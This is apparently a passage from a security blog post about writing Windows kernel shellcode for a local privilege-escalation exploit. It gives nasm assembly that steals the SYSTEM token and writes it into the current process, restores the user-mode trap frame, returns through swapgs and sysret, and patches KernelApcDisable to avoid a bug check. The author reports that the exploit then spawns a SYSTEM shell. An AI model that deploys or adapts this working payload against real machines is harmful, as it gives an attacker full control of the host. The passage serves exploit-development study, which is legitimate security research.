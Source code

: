 ```nasm
	and rcx, 0x7
	add rdx, rcx				; put target's ref count into our token
	mov [r9 + 0x4b8], rdx		; rdx = system token; KPROCESS+0x4b8 is the Token, KPROCESS+0x448 is the process links - 0x70 is the diff

; SYSRET SHELLCODE HERE
```

Now let's add what we know:
```nasm
	mov rax, [gs:0x188]		; _KPCR.Prcb.CurrentThread
	mov rdx, [rax + 0x90] 		; ETHREAD.TrapFrame
	mov rcx, [rdx + 0x168]		; ETHREAD.TrapFrame.Rip
	mov r11, [rdx + 0x178]		; ETHREAD.TrapFrame.EFlags
	mov rsp, [rdx + 0x180]		; ETHREAD.TrapFrame.Rsp
	mov rbp, [rdx + 0x158]		; ETHREAD.TrapFrame.Rbp
	xor edx, edx			; Like KiSystemCall64 does (not a must)
	xor eax, eax 	        	
	swapgs
	o64 sysret		; nasm syntax shit
```

Running this gave a really not surprising result - a Blue Screen:  
![](/assets/images/sysret_shellcode/apc_mismatch_small.jpg)

More specifically, it's a Bug Check 0x1: [APC_INDEX_MISMATCH](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check-0x1--apc-index-mismatch).  
The documentation's Remarks section suggested it's because a call to `KeEnterCriticalRegion` didn't have a matching call to `KeLeaveCriticalRegion`.  
By looking at the disassembly of `KeLeaveCriticalRegion` ([or the source code](https://github.com/cryptoAlgorithm/nt5src/blob/daad8a087a4e75422ec96b7911f1df4669989611/Source/XPSP1/NT/base/ntos/inc/ke.h#L1740)) it's pretty simple - just add one to `CurrentThread->KernelApcDisable`:  
```nasm
mov rax, [gs:0x188]		; _KPCR.Prcb.CurrentThread
mov cx, [rax + 0x1e4]		; KTHREAD.KernelApcDisable
inc cx
mov [rax + 0x1e4], cx
```

**And that's it! It just works :)**  
After running the exploit with this shellcode it successfully spawns a SYSTEM cmd shell and it works without a problem.  
The [full shellcode](https://github.com/Kristal-g/kristal-g.github.io/blob/master/assets/code/shellcode_iret_blog.asm) is on my Github. Notice that it has hardcoded offsets for my build that must be changed for it to work on other builds.  
